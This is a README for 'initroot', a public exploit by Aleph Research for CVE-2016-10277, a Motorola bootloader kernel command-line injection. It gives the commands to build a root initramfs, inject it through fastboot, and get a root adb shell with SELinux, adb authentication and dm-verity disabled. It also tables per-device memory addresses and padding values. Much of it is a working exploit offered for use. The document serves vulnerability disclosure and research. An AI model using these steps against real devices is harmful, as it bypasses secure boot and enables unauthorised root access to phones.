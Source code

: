 # initroot: Motorola Bootloader Kernel Cmdline Injection Secure Boot & Device Locking Bypass (CVE-2016-10277) #

By Roee Hay / Aleph Research, HCL Technologies

## Instructions ##

1. Use the commited `initroot-<device>.cpio.gz`, or produce your own:
```
$ cd <initramfs folder>
$ find . | grep -v [.]$ | cpio -R root:root -o -H newc | gzip > ../initroot-<device>.cpio.gz
OR if padding is needed:
$ cp ../pad ../initroot-<device>.cpio.gz && find . | grep -v [.]$ | cpio -R root:root -o -H newc | gzip > ../tmp && ls -la ../tmp && cat ../tmp >> ../initroot-<device>.cpio.gz  && rm -fr ../tmp
$ cd ..
```
2. Our commited initramfs images have adb running as root by default. It will not ask for authorization. In addition, dm-verity is disabled on the relevant partitions
```terminal
fastboot oem config fsg-id "a initrd=<SCRATCH_ADDR+PADDING>,<initroot.cpio.gz size-PADDING>"`
fastboot flash foo initroot-<device>.cpio.gz`
fastboot continue
```
3. if you use our initramfs, `adb shell` will now give you a root shell:
```
$ adb shell
shamu:/ # id
uid=0(root) gid=0(root) groups=0(root),1004(input),1007(log),1011(adb),1015(sdcard_rw),1028(sdcard_r),3001(net_bt_admin),3002(net_bt),3003(inet),3006(net_bw_stats),3009(readproc) context=u:r:su:s0
```

## Verified Devices ##
| Device           | `SCRATCH_ADDR` | `PADDING`   | committed `initrams`
|------------------|--------------|-----------|---------
| shamu (Nexus 6)  | `0x11000000`   | `0x0`         | AOSP `userdebug`
| cedric (Moto G5) | `0xA0100000`   | `0x2000000` | Release, patched `init` and `adbd` to disable SELinux, `set{u,g}id` to shell, capabilities drop and adb auth, etc
| athene (Moto G4) | `0x90000000`   | `0x2000000` | ""


## Community Reported ##
| Device           | Reporter | Description
|------------------|--------------|-----------
| Moto G5 Plus  | [drbeat](https://github.com/drbeat)  | Injected boot property. [[proof](https://github.com/alephsecurity/initroot/issues/1)]
| Moto G4 Play  | [@autoprime](https://twitter.com/autoprime)   | Full Exploitation of Verizon XT1609. [[proof](https://twitter.com/utoprime/status/873941023050919936)]
| Moto G3 | [@asiekierka](https://twitter.com/asiekierka) | Injected initrd caused boot loops. [[proof](https://twitter.com/asiekierka/status/873467107090075648)]


## Note ##
This vulnerability may affect other Motorola devices too: a different initramfs will be needed. A different physical address of initrd (`SCRATCH_ADDR`). `PADDING` may vary as well.

## Publications ##
1. [initroot: Bypassing Nexus 6 Secure Boot through Kernel Command-line Injection](https://alephsecurity.com/2017/05/23/nexus6-initroot/)
2. [initroot: Hello Moto](https://alephsecurity.com/2017/06/07/initroot-moto/)
3. [Motorola Android Bootloader Kernel Cmdline Injection Secure Boot Bypass](https://alephsecurity.com/vulns/aleph-2017011)



